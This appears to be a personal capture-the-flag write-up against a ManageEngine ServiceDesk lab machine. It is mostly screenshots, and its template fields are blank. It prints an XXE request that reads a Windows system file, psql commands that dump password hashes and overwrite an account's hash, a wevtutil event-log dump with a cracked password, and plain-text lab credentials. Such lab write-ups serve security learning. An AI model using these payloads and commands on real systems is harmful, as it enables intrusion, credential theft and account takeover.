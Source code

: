 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/33sgwCq.png)
49667 is included
#### Port `8080`
![](https://i.imgur.com/PDrAqcZ.png)

![](https://i.imgur.com/4VwOu3R.png)
![](https://i.imgur.com/yLo3how.png)
![](https://i.imgur.com/4zMEdtH.png)

https://www.exploit-db.com/exploits/46674
![](https://i.imgur.com/OZ6DB4E.png)
https://github.com/devcoinfet/Manage-Engine-9.3-xxe-/blob/master/Mengine_Xxe.py
![](https://i.imgur.com/Ottq5Be.png)
- HTTP session request
```Http
POST /j_security_check HTTP/1.1
Host: 10.10.10.132:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

j_username=guest&j_password=guest&LDAPEnable=false&hidden=For+Domain&AdEnable=false&DomainCount=0&LocalAuth=No&LocalAuthWithDomain=No&dynamicUserAddition_status=true&localAuthEnable=true&logonDomainName=-1&loginButton=Login&checkbox=checkbox
```
- With the Cookie
```http
POST /api/cmdb/ci HTTP/1.1
Host: 10.10.10.132:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Cookie: JSESSIONID=A92A4BB49E637F18C54F1573A2275FBE; JSESSIONIDSSO=153DC05DDC4090AD2A583712D29729B2; _rem=true; febbc30d=af52fd18c62a4f7f83b521645522e4f7; mesdpe157143457=a55efd899e88554727c10406a9ba3423a4d0a3f9
Content-Length: 491
Content-Type: application/x-www-form-urlencoded

OPERATION_NAME=add&INPUT_DATA=%3C%21DOCTYPE+foo+%5B%3C%21ENTITY+xxe15d41+SYSTEM+%22file%3A%2F%2F%2FC%3A%2Fwindows%2Fwin.ini%22%3E+%5D%3E%3CAPI+version%3D%271.0%27+locale%3D%27en%27%3E%0A++++%3Crecords%3E%0A++++++++%3Crecord%3E%0A++++++++++++%3Cparameter%3E%0A++++++++++++++++%3Cname%3ECI+Name%3C%2Fname%3E%0A++++++++++++++++%3Cvalue%3ETomcat+Server+3+rexder%26xxe15d41%3Brexder%3C%2Fvalue%3E%0A++++++++++++%3C%2Fparameter%3E%0A++++++++%3C%2Frecord%3E%0A++++%3C%2Frecords%3E%0A%3C%2FAPI%3E%0A
```
![](https://i.imgur.com/cRfeHgz.png)
```
username: alice password: $sys4ops@megabank!
admin required: no
shadow admin accounts: mike_adm:Password1 
dr_acc:dr_acc
```
### Gaining Access
![](https://i.imgur.com/k5wSdvL.png)
## Internal
### Enumeration
![](https://i.imgur.com/XA2SW3P.png)
123,500,4500
![](https://i.imgur.com/X3UaHkn.png)
![](https://i.imgur.com/e3IdNLa.png)
- There is Database called `pgsql` - https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql
```
#------------------------------------------------------------------------------
# FILE LOCATIONS
#------------------------------------------------------------------------------

# The default values of these variables are driven from the -D command-line
# option or PGDATA environment variable, represented here as ConfigDir.

#data_directory = 'ConfigDir'		# use data in another directory
					# (change requires restart)
#hba_file = 'ConfigDir/pg_hba.conf'	# host-based authentication file
					# (change requires restart)
#ident_file = 'ConfigDir/pg_ident.conf'	# ident configuration file
					# (change requires restart)

# If external_pid_file is not explicitly set, no extra PID file is written.
#external_pid_file = ''			# write an extra PID file
					# (change requires restart)

# Add settings for extensions here
include_if_exists 'postgres_ext.conf'
port=65432
```
![](https://i.imgur.com/OE2U4DI.png)

- the Postgres database to connect we got the tools in `pgsql\bin`
	- `psql -h <host> -U <username> -d <database>`
- ![](https://i.imgur.com/RKPK6lg.png)
![](https://i.imgur.com/43yVBfb.png)
`./psql.exe -h 127.0.0.1 -p 65432 -U postgres -d servicedesk -c "select * from aaapassword"`
- `./psql.exe -h 127.0.0.1 -p 65432 -U postgres -d servicedesk -c "select aaauser.first_name,aaapassword.password from aaauser,aaapassword where aaauser.user_id = aaapassword.password_id"`
- `./psql.exe -h 127.0.0.1 -p 65432 -U postgres -w -d servicedesk -c "update aaapassword set password='$2a$12$6VGARvoc/dRcRxOckr6WmucFnKFfxdbEMcJvQdJaS5beNK0ci0laG', salt='$2a$12$6VGARvoc/dRcRxOckr6Wmu' where password_id = 2;"`
### Gaining Access
![](https://i.imgur.com/9Y0nRRP.png)

```
0987654321       (ZacharyMoore)
1q2w3e4r         (FionaDrake)
```
![](https://i.imgur.com/IHCdEjM.png)
on the way i got i another idea to change password
![](https://i.imgur.com/G397ltI.png)

![](https://i.imgur.com/uqCuxo2.png)

![](https://i.imgur.com/IC6mDK6.png)
i got admin access, But i can access any flags user or root (That’s because the flags are `EFS` encrypted : )but the user is on the `tolu` user.
![](https://i.imgur.com/jBdKfcT.png)
![](https://i.imgur.com/C60dri4.png)
- So By my Previous Account `zachary` i dumped the event and filtered the user
	- ` wevtutil qe security /rd:true /f:text /r:helpline /u:HELPLINE\zachary /p:0987654321 > eventlog.txt `
### Maintaining Access
![](https://i.imgur.com/3GGUdM0.png)
- I Decrypted the files EFS
	- 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29
![](https://i.imgur.com/KFJ0hp7.png)

-> ????????????? I tried to check if there is impersonation token , check ippsec
![](https://i.imgur.com/hPzs1h3.png)
![](https://i.imgur.com/tCBq8Ic.png)
![](https://i.imgur.com/ObSw553.png)




# Random Notes